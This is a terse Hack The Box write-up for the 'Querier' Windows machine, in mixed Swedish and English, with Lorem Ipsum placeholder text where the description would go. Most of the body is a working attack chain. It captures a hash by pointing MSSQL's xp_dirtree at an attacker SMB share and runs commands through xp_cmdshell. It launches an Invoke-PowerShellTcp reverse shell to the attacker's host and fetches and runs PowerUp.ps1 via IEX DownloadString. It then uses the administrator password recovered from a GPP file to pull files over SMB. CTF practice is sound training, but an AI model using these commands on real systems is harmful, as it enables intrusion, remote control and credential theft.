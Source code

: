 ```yaml
---
layout: single
title: Querier - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-06-01
classes: wide
header:
  teaser: /assets/images/htb-writeup-querier/querier_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
categories:
  - hackthebox
  - infosec
tags:  
  - windows
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-querier/querier_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


## USER ##
^^^^^^^^^^

LISTENER:
python smbserver.py -smb2support -ip 10.10.14.3 reporting /tmp 

RUN: (för mssql query som ger user/pw)
python mssqlclient.py -windows-auth querier/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
SQL> EXEC master.sys.xp_dirtree '\\10.10.14.3\tmp'

ANSLUT MED RÄTT CREDS:
python mssqlclient.py querier/mssql-svc:corporate568@10.10.10.125 -windows-auth

> xp_cmdshell type C:\Users\mssql-svc\Desktop\user.txt

-----------------------------------------------------------------------------------------
## ROOT ##
^^^^^^^^^^

Starta smbserver samt netcat för PowerShellTCP:
# python smbserver.py -smb2support -ip 10.10.14.11 querier /tmp
# nc -lnvp 4444

ANSLUT SOM MSSQL-SVC:
SQL > xp_cmdshell move \\10.10.14.11\querier\Invoke-PowerShellTcp.ps1 C:\Users\mssql-svc\Desktop\pENIS.ps1
SQL > xp_cmdshell "powershell -file c:\Users\mssql-svc\Desktop\pENIS.ps1 -Reverse -IPAddress 10.10.14.11 -Port 4444"

PS > IEX (New-Object Net.WebClient).DownloadString('\\10.10.14.11\querier\PowerUp.ps1'); Invoke-AllChecks
 [*] Checking for cached Group Policy Preferences .xml files....
 Usernames : {Administrator}
 Passwords : {MyUnclesAreMarioAndLuigi!!1!}

Plocka root:
# python smbclient.py querier/Administrator:MyUnclesAreMarioAndLuigi\!\!1\!@10.10.10.125
# use C$
# cd Users/Administrator/Desktop
# get root.txt
 
